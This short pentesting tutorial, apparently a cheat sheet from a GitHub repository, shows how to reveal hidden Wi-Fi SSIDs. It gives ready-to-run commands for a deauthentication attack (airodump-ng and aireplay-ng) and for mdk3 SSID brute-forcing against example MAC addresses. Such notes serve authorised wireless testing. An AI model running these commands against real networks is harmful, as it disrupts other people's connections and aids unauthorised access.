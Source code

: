 # How to find hidden SSIDs
Hiding SSIDs is a superficial attempt at masking SSIDs from casual users and attackers by making it less visible. 2 methods to get their ESSID, deauth and bruteforcing.
## Deauth
If there are clients connected to hidden networks you can deauth them, then capture the request they send to re-connect which will contain the ESSID / network name. 

Once setup:
```
airodump-ng wlan1mon
```
```
aireplay-ng -0 10 -a B2:C1:3D:3B:2B:A1 -c 02:00:00:00:02:00 wlan1mon
```
## Brute forcing hidden SSID
With `mdk3`, we can either provide a wordlist or specify the length of the SSID so the tool can automatically generate potential SSID names:
```
mdk3 <interface> <test mode> [test_ options]
```
Brute forcing all possible values:
```
mdk3 wlan1mon p -b u -c 1 -t A2:FF:31:2C:B1:C4
```
Brute forcing using a wordlist:
```
mdk3 wlan1mon p -f /opt/wordlist.txt -t D2:A3:32:13:29:D5
```
